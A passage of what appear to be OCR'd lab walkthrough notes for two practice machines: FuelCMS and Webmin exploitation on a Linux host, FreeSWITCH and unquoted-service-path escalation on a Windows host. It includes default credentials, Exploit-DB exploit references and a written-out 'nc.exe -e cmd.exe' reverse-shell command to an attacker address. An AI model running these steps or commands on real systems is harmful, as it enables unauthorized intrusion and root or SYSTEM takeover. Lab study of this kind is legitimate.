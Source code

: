 4. ./tmp/45010
5. Root shell!

```bash
webpack (.96)
```
Operating SystemLinux
Points20
Similar Machine (User)TryHackMe’s Ignite
Similar Machine (Root)HackThebox’s Jarvis
Exploit in Getting User
1. Run un gobuster on port 80 and you will get /index.php/fuel
2. Login as admin:admin
3. FuelCMS is vulnerable to https://www.exploit-db.com/exploits/47138
4. Modify the URL and directories
5. For the reverse shell make sure you use port 80 to bypass the iptables
6. User shell!
Privilege Escalation to Root
1. Run Linux Enumeration script
2. You will see it has systemctl
3. /var/www/html/assets/images/ is writable
4. Follow this -
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl
-permissions-bc62b0b28d49
1. Root shell!
Recent Update for Priv.Esc.:
1. Locate Webmin’s writable miniserv.users with Linux Enumeration script
2. Use openssl passwd -1 "yourpassword"
3. Overwrite the “x” in the miniserv.users with the hash generated
4. Run sudo systemctl restart webmin
5. Browse port 10000 and login with root/yourpassword
6. Execute nc in the System>Running Process
7. Root shell!

```bash
Asystole (.105)
```
Operating SystemWindows
Points25
Similar Machine (User)
Similar Machine (Root)
TryHackMe’s Steel Mountain
Exploit in Getting User
1. Port 8081 is running FreeSWITCH
2. Use this exploit: https://www.exploit-db.com/exploits/47799
3. Copy the exploit and modify the file extension from txt to py
4. Run: python3 47799.py 192.168.XX.105 dir
5. dir is a command in windows =.=
6. Next step is to upload a netcat binary. For this one use Powershell
7. Execute reverse shell using netcat: python3 47799.py 192.168.XX.105 “.\nc.exe -nv
192.168.XX.XX 445 -e cmd.exe”
1. User shell!
Privilege Escalation to Root
1. Use winPEAS to gather info and look for a vulnerable service name.
2. The machine has a vulnerable service path (Unquoted Service Path)
3. Rename the existing service
4. Create a reverse shell (exe) in msfvenom
5. Upload it to the path folder of the service
6. Setup netcat listener
7. Reboot the target machine
8. Root!
